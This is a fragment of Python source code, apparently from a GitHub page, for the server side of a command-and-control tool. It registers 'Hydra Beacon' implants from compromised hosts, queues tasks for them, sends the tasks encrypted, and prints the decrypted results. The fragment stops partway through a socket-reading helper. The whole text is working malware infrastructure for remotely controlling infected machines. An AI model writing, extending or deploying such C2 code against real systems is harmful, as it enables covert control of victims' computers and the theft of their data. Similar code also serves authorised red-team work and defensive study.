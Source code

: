 ```python
            with lock:
                beacons[beacon_id] = {
                    "conn": conn,
                    "addr": addr,
                    "last_seen": datetime.now().strftime("%Y-%m-%d %H:%M:%S"),
                    "metadata": metadata,
                    "tasks": []
                }
            print(f"\n[+] New Hydra Beacon checked in! ID: {beacon_id} ({metadata['host']}/{metadata['os']})")

            # Main tasking loop for this beacon
            while True:
                # Wait for beacon to request tasks
                task_request = self._recv_data(conn)
                if not task_request: break
            
                # Check for pending tasks
                task_to_send = "NO_TASK"
                with lock:
                    if beacons[beacon_id]["tasks"]:
                        task_to_send = beacons[beacon_id]["tasks"].pop(0)
            
                # Send task and get result
                encrypted_task = self.encryptor.encrypt(task_to_send.encode())
                self._send_data(conn, encrypted_task)

                if task_to_send != "NO_TASK":
                    encrypted_result = self._recv_data(conn)
                    if not encrypted_result: break
                
                    decrypted_result = self.encryptor.decrypt(encrypted_result)
                    if decrypted_result:
                        print(f"\n[*] Result from {beacon_id}:\n---\n{decrypted_result.decode()}\n---")
                    else:
                        print(f"\n[-] Failed to decrypt result from {beacon_id}")

                with lock:
                    beacons[beacon_id]["last_seen"] = datetime.now().strftime("%Y-%m-%d %H:%M:%S")

        except Exception:
            # print(f"[-] Exception handling client {addr}: {e}") # Debug
            pass
        finally:
            if beacon_id and beacon_id in beacons:
                with lock:
                    del beacons[beacon_id]
                print(f"\n[-] Beacon {beacon_id} disconnected.")
            conn.close()

    def _send_data(self, conn, data: bytes):
        conn.sendall(len(data).to_bytes(4, 'big') + data)

    def _recv_data(self, conn):
        raw_len = self._recv_all(conn, 4)
        if not raw_len: return None
        msg_len = int.from_bytes(raw_len, 'big')
        return self._recv_all(conn, msg_len)
  
    def _recv_all(self, conn, n):
        data = b''
        while len(data) < n:
```